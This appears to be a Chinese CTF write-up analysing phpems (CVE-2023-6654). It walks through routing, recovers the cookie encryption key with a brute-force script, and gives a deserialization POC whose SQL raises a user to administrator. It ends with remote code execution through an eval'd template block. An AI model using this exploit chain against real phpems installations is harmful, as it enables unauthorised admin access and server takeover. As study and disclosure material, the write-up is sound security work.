





# 奇安信攻防社区 - 西湖论剑 phpems 分析

### 西湖论剑 phpems 分析

#### 路由分析

拿到题目后，本地进行搭建测试。首先 phpems 是个 mvc 的架构，先去 GitHub 上看了路由访问的规则文档 ([https://github.com/oiuv/phpems/](https://github.com/oiuv/phpems/))

  
看到路由访问规则后，首先先看路由加载的逻辑。有个比较方便的方法是采用 Exception 类的 getTraceAsString 来打印堆栈，从而获取函数的调用路径。

```php
D:\phpstudy_pro\WWW\phpems\app\user\controller\login.app.php:23:string '#0 D:\phpstudy_pro\WWW\phpems\app\user\controller\login.app.php(16): PHPEMS\action->index()
#1 D:\phpstudy_pro\WWW\phpems\lib\init.cls.php(110): PHPEMS\action->display()
#2 D:\phpstudy_pro\WWW\phpems\index.php(8): PHPEMS\ginkgo->run()
#3 {main}' (length=244)
```

跟进函数进行分析

```php
    //执行页面
    public function run()
    {        
        self::$app = self::$defaultApp;
        $ev = self::make('ev');
        if($ev->url(0))
        {
            self::$app = $ev->url(0);
        }

        self::$module = $ev->url(1);
        self::$method = $ev->url(2);
        if(!self::$module)self::$module = 'app';
        if(!self::$method)self::$method = 'index';
        include PEPATH.'/app/'.self::$app.'/'.self::$module.'.php';
        $modulefile = PEPATH.'/app/'.self::$app.'/controller/'.self::$method.'.'.self::$module.'.php';
        if(file_exists($modulefile))
        {           
            include $modulefile;            
            $tpl = self::make('tpl');
            $tpl->assign('_app',self::$app);
            $tpl->assign('method',self::$method);
            $run = new action();
            $run->display();
        }
        else die('error:Unknown app to load, the app is '.self::$app);
    }
```

run 函数是其中根据路由进行实例化指定 controller 的地方。这里面有几个核心函数，make 和 url，make 函数是用来引入 lib 文件夹下的类文件并实例化类的。url 函数是用来获取路由中的 action 和 controller 的部分。遇到这样的 MVC 首先可以考虑下文件包含的问题，因为直接将 module 这些用户可控的变量直接带入了 include 中。

```php
    public function __construct()
    {
        $this->strings = \PHPEMS\ginkgo::make('strings');
        if (ini_get('magic_quotes_gpc')) {
            $get    = $this->stripSlashes($_REQUEST);
            $post   = $this->stripSlashes($_POST);
            $this->cookie = $this->stripSlashes($_COOKIE);
        } else {
            $get    = $_REQUEST;
            $post   = $_POST;
            $this->cookie = $_COOKIE;
        }
     public function parseUrl()
    {
        if(isset($_REQUEST['route']))
        {
            $r = explode('-',$_REQUEST['route']);
            foreach($r as $key => $p)
            {
                $r[$key] = urlencode($p);
            }
        }
        elseif(isset($_SERVER['QUERY_STRING']))
        {
            $tmp = explode('#',$_SERVER['QUERY_STRING'],2);
            $tp = explode('&',$tmp[0],2);
            $r = explode('-',$tp[0]);
            foreach($r as $key => $p)
            {
                $r[$key] = urlencode($p);
            }
        }
        else return false;  
        if(!$r[0] || !file_exists('app/'.$r[0].'/'))
        {
            $r[0] = \PHPEMS\ginkgo::$defaultApp;
        }
        if(!file_exists('app/'.$r[0].'/'.$r[1].'.php') || $r[1] == 'auto')
        {
            $r[1] = 'app';
        }
        if(!file_exists('app/'.$r[0].'/controller/'.$r[2].'.'.$r[1].'.php'))
        {
            $r[2] = 'index';
        }
        if($r[1] == 'app' && $this->isMobile())
        {
            $r[1] = 'phone';
        }
        if(!$r[3])$r[3] = 'index';
        if(substr($r[3],0,1) == '_')$r[3] = 'index';
        return $r;
    }
     public function url($par)
    {
        $par = intval($par);
        if(isset($this->url[$par]))return $this->url[$par];
        else return false;
    }
```

可以看到在 parseUrl 采用了 urlencode 的方式，这会导致所有的/变成%2f 从而无法进行目录穿越进行文件包含。

回到前面的 run 方法，我们会发现，其实这个调用 controller 里面 action 的方法并没有采用反射的方法，而是采用了将所有的控制器的父类都命名为 app，再将所有的 controller 类名命名为 action。再通过 controller 里面的 display 方法调用路由中的指定方法。从这里我们也能发现，app 父类主要是用来做鉴权和一些类的引入及初始化。

#### 密钥获取

分析完整体的流程后，对该系统进行了历史 cve 的搜索，发现存在一个反序列化的漏洞[CVE-2023-6654](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6654)。自己分析的时候，首先先全局搜索了 unserialize 的方法，发现在对 cookie 还有一些字符串进行操作时有一个 encode 和 decode 方法。

```php
    public function encode($info)
    {
        $info = serialize($info);
        $key = CS;
        $kl = strlen($key);
        $il = strlen($info);
        for($i = 0; $i < $il; $i++)
        {
            $p = $i%$kl;
            $info[$i] = chr(ord($info[$i])+ord($key[$p]));
        }
        return urlencode($info);
    }

    public function decode($info)
    {
        $key = CS;
        $info = urldecode($info);
        $kl = strlen($key);
        $il = strlen($info);
        for($i = 0; $i < $il; $i++)
        {
            $p = $i%$kl;
            $info[$i] = chr(ord($info[$i])-ord($key[$p]));
        }
        $info = unserialize($info);
        return $info;
    }
```

既然 decode 方法涉及到 cookie 的操作，会在任意路由的时候被调用。那么现在的问题就是如何获得到加密中用到 key 的值了，如果运气好，对方管理员没有修改默认的密钥就可以进行直接反序列化的攻击了，修改了则就需要通过一些反序列化中存在的字段推出密钥了。其实，这个加密可以看成简单的 ECB 对称加密，所以通过反序列化的格式以及键名就能反推出密钥了。

这里解开后的序列化数据如下所示：

```php
a:8:{s:13:"sessionuserid";s:2:"34";s:15:"sessionpassword";s:32:"e10adc3949ba59abbe56e057f20f883e";s:9:"sessionip";s:9:"127.0.0.1";s:14:"sessiongroupid";s:1:"1";s:16:"sessionlogintime";i:1708610036;s:15:"sessionusername";s:4:"test";s:16:"sessiontimelimit";i:1708610036;s:9:"sessionid";s:32:"ef05ad75e9656da99ba42372d756d477";}
```

截取的前 32 位为

```php
a:8:{s:13:"sessionuserid";s:2:"3
```

除了 sessionid 的值和注册的用户数量有关，所以密钥的第 32 位和倒数第 4 位没法准确的确定外，其它都可以还原出来了。而这两位也可以根据序列化的格式进行爆破。最终就可以还原出密钥了。

还原密钥的脚本如下：

```php
function decode1($info,$key=null)
{
    if(!$key)
    $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    // $info = urldecode(($info));
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])-ord($key[$p]));
    }
    // var_dump($info);
    $info = unserialize($info);
    return $info;
}

function get_key($cookie){
    // $info='10adc3949ba59abbe56e057f20f883e"';
    // $enc=substr($cookie,64,32);

    $key = 'a:8:{s:13:"sessionuserid";s:2:"2';
    $info=urldecode(urldecode($cookie));
    $use_info=substr($info,0,32);
    $kl = strlen($key);
    $il = strlen($use_info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $use_info[$i] = chr(ord($use_info[$i])-ord($key[$p]));
    }
    for($i=0;$i<128;$i++){
        for($j=0;$j<128;$j++){
            $use_info[31]=chr($i);
            $use_info[28]=chr($j);
            if(decode1($info,$use_info)){
                return $use_info;
            }
        }
    }
    return 'error';
}
```

还原密钥后我们就可以进行进行任意的反序列化操作了。

在这里我也想过一个问题，既然这 cookie 进行了这样的加密，还存储了这么多的用户信息，会不会是类似 jwt 的验证方式，那么有了密钥之后，我们就能对 cookie 进行伪造，这样是不是就能伪装管理员身份进入后台了。但是在后续的测试中，发现这个方法并行不通。

```php
    //获取会话用户
    public function getSessionUser()
    {
        if($this->sessionuser)return $this->sessionuser;
        $cookie = $this->strings->decode($this->ev->getCookie($this->sessionname));
        if($cookie['sessionuserid'])
        {
            $user = $this->getSessionValue();
            if($cookie['sessionuserid'] == $user['sessionuserid'] && $cookie['sessionpassword'] == $user['sessionpassword'] && $cookie['sessionip'] == $user['sessionip'])
            {
                $this->sessionuser = $user;
                return $user;
            }
        }
        return false;
    }
    public function getSessionValue($sessionid = NULL)
    {
        if(!$sessionid)
        {
            if(!$this->sessionid)$this->getSessionId();
            $sessionid = $this->sessionid;
        }
        if(!$this->data || !$this->data[$this->sessionid])
        {
            $data = array(false,'session',array(array('AND',"sessionid = :sessionid",'sessionid',$this->sessionid)));
            $sql = $this->pdosql->makeSelect($data);
            $this->data[$this->sessionid] = $this->db->fetch($sql);
        }
        return $this->data[$this->sessionid];
    }
```

可以发现 cookie 中唯一用到的只是 sessionuserid，后续用该 sessionuserid 带入数据库查询获得 user，而 sessionuserid 又是一串 hash 字符串无法进行伪造，并且查询时也用了 pdo，无法进行注入，所以这里的鉴权是无法通过伪造 cookie 绕过的。

#### 反序列化链

有了反序列化的入口点，现在的问题再于寻找反序列化的链子了。全局搜索入口点\_\_destruct，发现虽然有很多\_\_destruct 的函数，但是由于该 cms 未使用 autoload 等自动加载机制，从而导致仅有 PHPEMS\\session 类的\_\_destruct 较为好触发。

```php
    public function __destruct()
    {
        $data = array('session',array('sessionlasttime' => TIME),array(array('AND',"sessionid = :sessionid",'sessionid',$this->sessionid)));
        $sql = $this->pdosql->makeUpdate($data);
        $this->db->exec($sql);
        if(rand(0,5) > 4)
        {
            $data = array('session',array(array('AND',"sessionlasttime <= :sessionlasttime","sessionlasttime",intval((TIME - 3600*24*3)))));
            $sql = $this->pdosql->makeDelete($data);
            $this->db->exec($sql);
        }
    }
```

这里面 makeUpdate 进行了生成 update 的 sql 语句操作，再通过 pdo 进行执行。跟进查看具体细节实现

```php
    public function makeUpdate($args,$tablepre = NULL)
    {
        if(!is_array($args))return false;
        if($tablepre === NULL)$tb_pre = $this->tablepre;
        else $tb_pre = $tablepre;
        $tables = $args[0];
        $args[1] = $this->_makeDefaultUpdateArgs($tables,$args[1]);
        if(is_array($tables))
        {
            $db_tables = array();
            foreach($tables as $p)
            {
                $db_tables[] = "{$tb_pre}{$p} AS $p";
            }
            $db_tables = implode(',',$db_tables);
        }
        else
        $db_tables = $tb_pre.$tables;
        $v = array();

        $pars = $args[1];
        if(!is_array($pars))return false;
        $parsql = array();
        foreach($pars as $key => $value)
        {
            $parsql[] = $key.' = '.':'.$key;
            if(is_array($value))$value = serialize($value);
            $v[$key] = $value;
        }
        $parsql = implode(',',$parsql);

        $query = $args[2];
        if(!is_array($query))$db_query = 1;
        else
        {
            $q = array();
            foreach($query as $p)
            {
                $q[] = $p[0].' '.$p[1].' ';
                if(isset($p[2]))
                $v[$p[2]] = $p[3];
            }
            $db_query = '1 '.implode(' ',$q);
        }
        if(isset($args[3]))
        $db_groups = is_array($args[3])?implode(',',$args[3]):$args[3];
        else
        $db_groups = '';
        if(isset($args[4]))
        $db_orders = is_array($args[4])?implode(',',$args[4]):$args[4];
        else
        $db_orders = '';
        if(isset($args[5]))
        $db_limits = is_array($args[5])?implode(',',$args[5]):$args[5];
        else
        $db_limits = '';
        if($db_limits == false && $db_limits !== false)$db_limits = $this->_mostlimits;
        $db_groups = $db_groups?' GROUP BY '.$db_groups:'';
        $db_orders = $db_orders?' ORDER BY '.$db_orders:'';
        $sql = 'UPDATE '.$db_tables.' SET '.$parsql.' WHERE '.$db_query.$db_groups.$db_orders.' LIMIT '.$db_limits;
        // var_dump(array('sql' => $sql, 'v' => $v));
        return array('sql' => $sql, 'v' => $v);
    }
```

这里可以看到在该查询中有个 tablepre 的变量在反序列化中是可控的。并且在 pdo 预编译中，是无法对于表名进行预编译的，从而导致这里存在对该 cms 用到的任意表的任意数据进行修改。这里我们将需要修改数据的 sql 语句放入 tablepre 变量中，并注释掉后续的语句。同时这里 pdo 的用法是可以进行堆叠查询的，所以可以执行任意的 sql 语句。

反序列化的 POC 如下所示：

```php
<?php
namespace PHPEMS;

class session
{
    public $sessionid='1111111';
    public function __construct()
    {
        $this->pdosql = new pdosql;
        $this->db = new pepdo();
    }
}
class pdosql
{
    private $db;
    public function __construct()
    {
        $this->tablepre=' x2_session set sessiongroupid=\'1\' where sessionid=\'96a0e7fc80194815f509d8ef101f2ab8\' -- ';
        $this->db =new pepdo();
    }
}
class pepdo{
    private $linkid = 0;
    private $log = 1;       //开启日志，位置 data/error.log
    public function __construct()
    {
        $this->linkid=0;

    }
}
function encode($info,$key=null)
{

    $info = serialize($info);
    // if(!$key)
    // $key = '1hqfx6ticwRxtfviTp940vng!yC^QK^6';
    $kl = strlen($key);
    $il = strlen($info);
    for($i = 0; $i < $il; $i++)
    {
        $p = $i%$kl;
        $info[$i] = chr(ord($info[$i])+ord($key[$p]));
    }
    return urlencode($info);
}
$key= '4b394f264dfcdc724a06b9b05c1e59ed';
echo urlencode(encode(array('sessionid'=>'312312312',new session()),$key));
```

这里将 sessiongroupid 设置为 1，即后台管理员的 sessiongroupid 值，从而实现以普通用户身份进入后台。

#### 后台 RCE

进入后台后，寻找可以 getshell 的地方。审计过程中，发现 php 在上传的黑名单中，并且无法进行更改，同时上传文件会进行重命名操作，所以也无法采用.htaccess 等方法进行 getshell。

```php
$this->forbidden = array('rpm','exe','hta','php','phpx','asp','aspx','jsp');
```

后续发现了存在模板编辑的地方，考虑这里是否可以进行 getshell。查看模板编译的逻辑

```php
    //编译模板
    public function compileTpl($source)
    {
        $content = $this->readTpl($source);
        $this->compileSeminar($content);
        $this->compileBlock($content);
        $this->compileTree($content);
        $this->compileLoop($content);
        $this->compileEval($content);
        $this->compileSql($content);
        $this->compileIf($content);
        $this->compileInclude($content);
        $this->compileArray($content);
        $this->compileDate($content);
        $this->compileRealSubstring($content);
        $this->compileSubstring($content);
        $this->compileRealVar($content);
        $this->compileEnter($content);
        $this->compileConst($content);
        return $content;
    }
```

这其中有一项是 compileBlock，里面调用这些方法。

```php
    public function compileBlock(&$content)
    {
        $limit = '/{x2;block:(\d+)}/';
        $content = preg_replace_callback($limit,function($matches){
            return "<?php echo \$this->exeBlock('{$matches[1]}'); ?>\n";
        },$content);
    }
    public function exeBlock($id)
    {
        \PHPEMS\ginkgo::make('api','content')->parseBlock($id);
    }
    public function parseBlock($blockid)
    {
        $block = $this->block->getBlockById($blockid);
        if($block['blocktype'] == 1)
        {
            echo html_entity_decode($block['blockcontent']['content']);
        }
        elseif($block['blocktype'] == 2)
        {
            if($block['blockcontent']['app'] == 'content')
            {
                $args = array('catid'=>$block['blockcontent']['catid'],'number'=>$block['blockcontent']['number'],'query'=>$block['blockcontent']['query']);
                $blockdata = $this->_getBlockContentList($args);
                $tp = $this->tpl->fetchContent(html_entity_decode($this->ev->stripSlashes($block['blockcontent']['template'])));
                $blockcat = $this->category->getCategoryById($block['blockcontent']['catid']);
                $blockcatchildren = $this->category->getCategoriesByArgs(array(array("AND","catparent = :catparent",'catparent',$block['blockcontent']['catid'])));
                eval(' ?>'.$tp.'<?php
 namespace PHPEMS; ');
            }
            else
            {
                $args = array('catid'=>$block['blockcontent']['catid'],'number'=>$block['blockcontent']['number'],'query'=>$block['blockcontent']['query']);
                $obj = \PHPEMS\ginkgo::make('api',$block['blockcontent']['app']);
                if(method_exists($obj,'parseBlock'))
                $blockdata = $obj->parseBlock($args);
                else
                return false;
            }
            return true;
        }
        elseif($block['blocktype'] == 3)
        {
            if($block['blockcontent']['sql'])
            {
                $sql = array('sql' => str_replace('[TABLEPRE]',DTH,$block['blockcontent']['sql']));
            }
            else
            {
                $tables = array_filter(explode(',',$block['blockcontent']['dbtable']));
                $querys = array_filter(explode("\n",str_replace("\r","",html_entity_decode($this->ev->stripSlashes($block['blockcontent']['query'])))));
                $args = array();
                foreach($querys as $p)
                {
                    $a = explode('|',$p);
                    if($a[3])
                    {
                        if($a[3][0] == '$')
                        {
                            $s = stripos($a[3],'[');
                            $k = substr($a[3],1,$s-1);
                            $v = substr($a[3],$s,(strlen($a[3]) - $s));
                            $execode = "\$a[3] = \"{\$this->tpl_var['$k']$v}\";";
                        }
                        else
                        {
                            $k = substr($a[3],2,(strlen($a[3]) - 2));
                            $execode = "\$a[3] = \"{\$$k}\";";
                        }
                        eval($execode);
                    }
                    $args[] = $a;
                }

                $data = array(false,$tables,$args,false,$block['blockcontent']['order'],$block['blockcontent']['limit']);
                $sql = $this->pdosql->makeSelect($data);
            }
            $blockdata = $this->db->fetchAll($sql,$block['blockcontent']['index']?$block['blockcontent']['index']:false,$block['blockcontent']['serial']?$block['blockcontent']['serial']:false);
            $tp = $this->tpl->fetchContent(html_entity_decode($this->ev->stripSlashes($block['blockcontent']['template'])));
            eval(' ?>'.$tp.'<?php
 namespace PHPEMS; ');
            return true;
        }
        elseif($block['blocktype'] == 4)
        {
            $tp = $this->tpl->fetchContent(html_entity_decode($this->ev->stripSlashes($block['blockcontent']['content'])));
            eval(' ?>'.$tp.'<?php
 namespace PHPEMS; ');
        }
        else
        return false;
    }
```

可以注意到在最后的 compileBlock 中采用了 eval 函数，并且 content 是从数据库中获取的，可以利用之前的反序列化 SQL 注入直接进行修改，也可以寻找后台是否有调用的地方可以进行修改。全局搜索 blocktype

```php
    private function modify()
    {
        $page = $this->ev->get('page');
        if($this->ev->get('modifyblock'))
        {
            $blockid = $this->ev->get('blockid');
            $args = $this->ev->get('args');
            $args['blockcontent'] = $args['blockcontent'];
            unset($args['blocktype']);
            $this->block->modifyBlock($blockid,$args);
            $message = array(
                'statusCode' => 200,
                "message" => "操作成功",
                "target" => "",
                "rel" => "",
                "callbackType" => "forward",
                "forwardUrl" => "index.php?content-master-blocks&page={$page}"
            );
            exit(json_encode($message));
        }
        else
        {
            $blockid = $this->ev->get('blockid');
            $block = $this->block->getBlockById($blockid);
            $block['blockcontent'] = $this->ev->stripSlashes($block['blockcontent']);
            $apps = $this->apps->getAppList();
            $blockapps = array();
            foreach($apps as $id => $app)
            {
                $tmp = \PHPEMS\ginkgo::make('api',$app['appid']);
                if($tmp && method_exists($tmp,'parseBlock'))
                $blockapps[$id] = $app;
            }
            $this->tpl->assign('block',$block);
            $this->tpl->assign('blockapps',$blockapps);
            $this->tpl->assign('page',$page);
            $this->tpl->display('blocks_modify');
        }
    }
    private function change()
    {
        $blockid = $this->ev->get('blockid');
        $blocktype = $this->ev->get('blocktype');
        $this->block->modifyBlock($blockid,array('blocktype' => $blocktype));
        $message = array(
            'statusCode' => 200,
            "message" => "操作成功",
            "target" => "",
            "rel" => "",
            "callbackType" => "forward",
            "forwardUrl" => "index.php?content-master-blocks&page={$page}"
        );
        exit(json_encode($message));
    }
```

发现后台有专门对 block 进行编辑的函数，再确定了编辑函数后，重要的就是这个 block 的标签是否被使用和触发。全局搜索 block 匹配的正则表达式

  
触发地点为 register 处的用户协议。那么后台先将模式类型更改为 4，再将恶意代码写入内容即可。恶意代码需要第一行写入命名空间的原因是 php 命名空间必须是程序脚本的第一条语句。所以若恶意代码不包含命名空间，则会在后续拼接的 namespace 那报错。

```php
eval(' ?>'.$tp.'<?php namespace PHPEMS; ');
```





  
成功 rce。

#### 参考文章

[https://mp.weixin.qq.com/s?srcid=0202NUk6ZfpBOf1Z8HpGXb5m&scene=23&sharer\_shareinfo=88f6a86236927cdf9be967f0d477d42e&mid=2247494654&sn=2642f75b18e505e31fb691a4a5e7454e&idx=1&sharer\_shareinfo\_first=88f6a86236927cdf9be967f0d477d42e&\_\_biz=MzIzMTQ4NzE2Ng%3D%3D&chksm=e8a1c82fdfd64139c4fd6c312af62128a9bce511acd810b55c0f513b6f5bd7d75cbfbe6dd105&mpshare=1#rd](https://mp.weixin.qq.com/s?srcid=0202NUk6ZfpBOf1Z8HpGXb5m&scene=23&sharer_shareinfo=88f6a86236927cdf9be967f0d477d42e&mid=2247494654&sn=2642f75b18e505e31fb691a4a5e7454e&idx=1&sharer_shareinfo_first=88f6a86236927cdf9be967f0d477d42e&__biz=MzIzMTQ4NzE2Ng%3D%3D&chksm=e8a1c82fdfd64139c4fd6c312af62128a9bce511acd810b55c0f513b6f5bd7d75cbfbe6dd105&mpshare=1#rd)
